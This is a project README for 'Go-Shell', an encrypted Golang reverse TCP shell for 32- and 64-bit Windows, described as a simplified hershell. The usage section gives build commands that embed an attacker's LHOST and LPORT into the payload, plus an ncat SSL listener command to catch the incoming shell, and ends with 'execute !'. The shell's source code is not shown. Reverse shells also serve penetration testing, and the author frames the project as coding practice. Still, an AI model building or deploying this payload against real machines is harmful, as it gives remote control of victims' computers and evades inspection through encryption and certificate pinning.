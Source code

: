<div >
    <img src="assets/owl.png" align="left" height="40px" width="40px"/>
    <img src="assets/medusa.png" align="right" height="40px" width="40px"/>
    <h1 align="center" > Go-Shell - Golang Reverse TCP Shell </h1>
</div>

## About

Windows 32/64 encrypted reverse TCP shell a simplified version of [hershell](https://github.com/lesnuages/hershell) which has a lot more features like cross compile to linux (check it out!).

<img src="assets/gopher.png" align="right" width="180" height="200" />

## Features
- Encrypted
- Can compile to 32 or 64bit architecture
- Certificate fingerprint pinning 

## Why?

I just wanted to practice some coding and a reverse tcp shell for windows with encryption and no extra functionalities like meterpreter integration

## Usage

- Clone the repo to compile it and modify it (Make sure to have golang installed!)
```bash
git clone https://github.com/Alpharivs/go-shell.git
```
- Prepare and compile the payload
```bash
# Generate Certificates
make prepare
# Compile Shell 
make windows64/windows32 LHOST=[IP] LPORT=[PORT]
# Delete Certificates and shell
make clean
```
- Set up a listener with ncat or any tool that can handle incoming ssl connections
```bash
# Set up listener
ncat --ssl --ssl-cert server.pem --ssl-key server.key -lnvp [PORT]
```
- execute !

if you want a more in depth explanation of how it works check out [hershell](https://github.com/lesnuages/hershell).

<h2 align="center" > LVX-SIT</h2>
<h3 align="center" > MMDCCLXXV -- Ab urbe condita </h3>